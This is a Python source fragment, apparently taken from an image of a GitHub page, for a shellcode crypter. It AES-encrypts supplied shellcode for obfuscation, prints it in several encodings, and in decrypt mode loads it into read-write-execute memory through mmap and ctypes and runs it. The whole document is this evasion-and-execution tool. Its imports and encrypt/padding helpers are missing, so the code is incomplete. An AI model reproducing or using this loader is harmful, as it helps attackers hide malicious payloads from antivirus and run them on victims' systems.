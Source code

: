 ```python

def decrypt(key, cipherText):
    iv = cipherText[:AES.block_size]
    aes = AES.new(key, AES.MODE_CBC, iv)
    decoded = aes.decrypt(cipherText)
    return decoded[AES.block_size:]

def normalize(s):
    normalized = ""
    for byte in bytearray(s):
         normalized += '\\x%02x' % (byte)
    return normalized

def py3ShellcodeFix(s):
    # get the string and split on the \x characters
    code = s.split('\\x')
    # remove any blank strings that may appear (you might also be able to get away with just doing code[1:] instead)
    code = list(filter(lambda x: x != '', code))
    # for each base 16 "character", convert it into a list of integers, then convert all that into a bytearray
    return bytearray([int(x, 16) for x in code])

# Will NOT work in python3 / newer machines
def runShellcode(shellcode):
    # Allocate memory with a RWX private anonymous mmap
    exec_mem = mmap.mmap(-1, len(shellcode),
                         prot = mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC,
                         flags = mmap.MAP_ANONYMOUS | mmap.MAP_PRIVATE)

    # Copy shellcode from bytes object to executable memory
    exec_mem.write(shellcode)

    # Cast the memory to a C function object
    ctypes_buffer = ctypes.c_int.from_buffer(exec_mem)
    function = ctypes.CFUNCTYPE( ctypes.c_int64 )(ctypes.addressof(ctypes_buffer))
    function._avoid_gc_for_mmap = exec_mem

    # Return pointer to shell code function in executable memory
    return function

if args.e:    
    shellcode = py3ShellcodeFix(args.shellcode)
    paddedShellcode = padShellcode(shellcode)
    #print(paddedShellcode)
    encryptedShellcode = encrypt(args.key, paddedShellcode)
    n = normalize(encryptedShellcode)
    print("[+] Encrypted shellcode (raw):\n%s\n" % encryptedShellcode)
    print("[+] Encrypted shellcode (\\x):\n%s\n" % n)
    print("[+] Encrypted shellcode (base64):\n%s\n" % base64.b64encode(encryptedShellcode))

if args.d:
    shellcode = py3ShellcodeFix(args.shellcode)
    decrypted = decrypt(args.key, bytes(shellcode))
    n = normalize(decrypted)
    print("[+] Decrypted shellcode (raw):\n%s\n" % decrypted)
    print("[+] Decrypted shellcode (\\x):\n%s" % n)
    print("[*] Executing shellcode...")
    runShellcode(decrypted)()
```
